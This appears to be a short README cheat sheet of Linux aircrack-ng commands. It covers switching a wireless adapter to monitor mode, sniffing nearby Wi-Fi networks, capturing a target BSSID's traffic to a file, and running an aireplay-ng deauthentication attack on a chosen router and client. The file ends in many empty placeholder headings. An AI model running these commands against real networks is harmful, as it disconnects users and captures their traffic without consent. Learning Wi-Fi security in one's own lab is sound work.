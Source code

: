# These commands are works only on linux based system
## An external Network Adapter is required, Your Network Adapter must support `monitor mode`, `packet injection mode`.
### Here my network interface name is `wlan1`, Your interface Name may be diffrent use accordingly.
&nbsp;
### see wireless networks
```
iwconfig
```
### see wireless network iP 
```
ifconfig
```
### disable network interface 
```
ifconfig wlan1 down
```
### kill network manager
```
airmon-ng check kill
```
### change interface `managed` mode to `monitor` mode
```
iwconfig wlan1 mode monitor
```
### Enable Network Interface
```
ifconfig wlan1 up
```

---
&nbsp;
# Packet Sniffing

### sniff network around us `2.4 GHz frequency only`
```
airodump-ng wlan1
```
### sniff network Both `2.4 GHz and 5 GHz`
```
airodump-ng --band a wlan1
```
### capture data both `2.4 GHz and 5 GHz`
```
airodump-ng --band abg wlan1
```
### caputre data into a file `fileName`
```
airodump-ng --bssid @1 --channel @2 --write fileName wlan1
```

@1 → `BSSID` of target

@2 → Channel no. of target

### open wireshark application to read captured data, captured in `fileName.cap`, 
```
wireshark
```


---
&nbsp;
# DE-Authentication Attack
```
aireplay-ng --deauth @1 -a @2 -c @3 wlan1
```
@1 → no. of packets you want to send 

@2 → BSSID of router

@3 → MAC Address of the Client

### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
